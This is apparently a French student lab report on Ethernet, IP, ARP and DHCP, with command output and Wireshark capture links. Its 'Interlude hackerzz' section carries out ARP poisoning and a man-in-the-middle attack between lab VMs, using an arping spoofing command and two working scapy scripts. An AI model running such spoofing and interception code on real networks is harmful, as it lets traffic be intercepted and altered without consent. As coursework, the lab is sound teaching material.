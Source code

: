 # TP2 : Ethernet, IP, et ARP
# I. Setup IP
🌞 **Mettez en place une configuration réseau fonctionnelle entre les deux machines**
```
$ sudo ip addr add 10.10.10.2/22 dev enp3s0
```
```
$ ip a

2: enp3s0:
    link/ether c0:18:50:0e:cb:bb brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.2/22
```
```
$ sipcalc 10.10.10.2/22

-[ipv4 : 10.10.10.2/22] - 0

[CIDR]
Network address		- 10.10.8.0
Network mask		- 255.255.252.0
Broadcast address	- 10.10.11.255
```
🌞 **Prouvez que la connexion est fonctionnelle entre les deux machines**
```
$ ping 10.10.10.3

PING 10.10.10.3 (10.10.10.3) 56(84) bytes of data.
64 bytes from 10.10.10.3: icmp_seq=1 ttl=128 time=2.47 ms
64 bytes from 10.10.10.3: icmp_seq=2 ttl=128 time=1.27 ms
64 bytes from 10.10.10.3: icmp_seq=3 ttl=128 time=1.33 ms
64 bytes from 10.10.10.3: icmp_seq=4 ttl=128 time=1.11 ms
^C
--- 10.10.10.3 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 1.105/1.542/2.471/0.542 ms

```
🌞 **Wireshark it**
 - Ping : type 8, code 0
 - Pong : type 0, code 0

[Paquets ICMP](./ping.pcapng)
# II. ARP my bro
🌞 **Check the ARP table**
```
$ ip n s

10.33.19.254 dev wlp4s0 lladdr 00:c0:e7:e0:04:4e REACHABLE 
10.10.10.3 dev enp3s0 lladdr e4:a8:df:c1:f9:9d STALE 
```
- MAC de la gateway : 00:c0:e7:e0:04:4e
- MAC du binôme : e4:a8:df:c1:f9:9d

🌞 **Manipuler la table ARP**
```
$ sudo ip n flush all  
```
```
$  ip n s

10.33.19.254 dev wlp4s0 lladdr 00:c0:e7:e0:04:4e REACHABLE 

```
```
$ ping 10.10.10.3
```
```
$ ip n s

10.33.19.254 dev wlp4s0 lladdr 00:c0:e7:e0:04:4e REACHABLE 
10.10.10.3 dev enp3s0 lladdr e4:a8:df:c1:f9:9d REACHABLE 

```
🌞 **Wireshark it**

[Trames ARP](./arp.pcapng)

# II.5 Interlude hackerzz
## 1 - ARP poisoning
- Eve :
```
$ ip a

3: eth1:
    link/ether 08:00:27:be:50:e2 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.104/24
```
- Alice :
```
$ ip a

2: enp0s8:
    link/ether 08:00:27:ff:10:b8
    inet 192.168.56.102/24
```
- Bob : 
```
$ ip a

2: enp0s8:
    link/ether 08:00:27:c6:94:50
    inet 192.168.56.103/24

$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 REACHABLE
```
- Depuis Eve : 
```
$ sudo sysctl net.ipv4.ip_nonlocal_bind=1

$ sudo arping -c 1000000 -U -S 192.168.56.102 -I eth1 192.168.56.103
```
- Depuis Bob : 
```
$ ip n s

192.168.56.102 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
```
[Pings](./arp_poisoning_1_ping.pcapng)
## 2 - Man in the middle
- ARP poisoning (arp_poisoning.py) : 
``` python 
from scapy.all import *

while 1:
    send(ARP(pdst = "192.168.56.102", psrc = "192.168.56.103", hwsrc = "08:00:27:be:50:e2"))
    send(ARP(pdst = "192.168.56.103", psrc = "192.168.56.102", hwsrc = "08:00:27:be:50:e2"))

```
- Man in the middle (mitm.py) : 
``` python
from scapy.all import *

# modifie et envoie les packets
def changer_dst(packet):
    if packet[Ether].dst == "08:00:27:be:50:e2": # si le mac du destinataire est celui d'eve
        # modifie l'adresse mac du destinataire en fonction de l'IP
        packet[Ether].dst = "08:00:27:ff:10:b8"*(packet[IP].dst == "192.168.56.102") + "08:00:27:c6:94:50"*(packet[IP].dst == "192.168.56.103")
        packet[Ether].src = "08:00:27:be:50:e2" # modifie l'adresse mac de l'expéditeur
        sendp(packet)

# Intercepte les packets
sniff(iface="eth0", filter = "icmp and host 192.168.56.103 and host 192.168.56.102", prn = changer_dst)

```
- Alice et Bob : 
```
[alice@localhost ~]$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
```
```
[bob@localhost ~]$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 REACHABLE
```
- Eve : 
```
sudo python Desktop/arp_poisoning.py
```
- Alice et Bob : 
```
[alice@localhost ~]$ ip n s

192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
192.168.56.104 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
192.168.56.103 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE

```
```
[bob@localhost ~]$ ip n s
192.168.56.100 dev enp0s8 lladdr 08:00:27:90:83:f3 STALE
192.168.56.1 dev enp0s8 lladdr 0a:00:27:00:00:00 DELAY
192.168.56.102 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
192.168.56.104 dev enp0s8 lladdr 08:00:27:be:50:e2 STALE
```
[Trames ARP poisoning](./arp_poisoning_py.pcapng)
- Eve : 
```
sudo python Desktop/mitm.py
```
- Alice et Bob : 
```
[alice@localhost ~]$ ping 192.168.56.103 -c 3

PING 192.168.56.103 (192.168.56.103) 56(84) bytes of data.
64 bytes from 192.168.56.103: icmp_seq=1 ttl=64 time=74.3 ms
64 bytes from 192.168.56.103: icmp_seq=2 ttl=64 time=68.1 ms
64 bytes from 192.168.56.103: icmp_seq=3 ttl=64 time=45.6 ms

--- 192.168.56.103 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 45.616/62.655/74.280/12.312 ms
```
[Pings d'Alice](./alice_pings.pcapng)
```
[bob@localhost ~]$ ping 192.168.56.102 -c 3

PING 192.168.56.102 (192.168.56.102) 56(84) bytes of data.
64 bytes from 192.168.56.102: icmp_seq=1 ttl=64 time=50.9 ms
64 bytes from 192.168.56.102: icmp_seq=2 ttl=64 time=62.3 ms
64 bytes from 192.168.56.102: icmp_seq=3 ttl=64 time=59.0 ms

--- 192.168.56.102 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 50.900/57.393/62.259/4.777 ms
```
[Pings de Bob](./bob_pings.pcapng)
# III. DHCP you too my brooo

🌞 **Wireshark it**

[Trames DHCP](./dhcp.pcapng)
- IP à utiliser : 
    Destinataire : 10.33.16.230
- Adresse IP de la passerelle réseau : 
    trame 2, option 3, routeur (10.33.19.254)
- Adresse d'un serveur DNS : 
    trame 2, option 6, DNS (8.8.8.8 ; 8.8.4.4 ; 1.1.1.1)
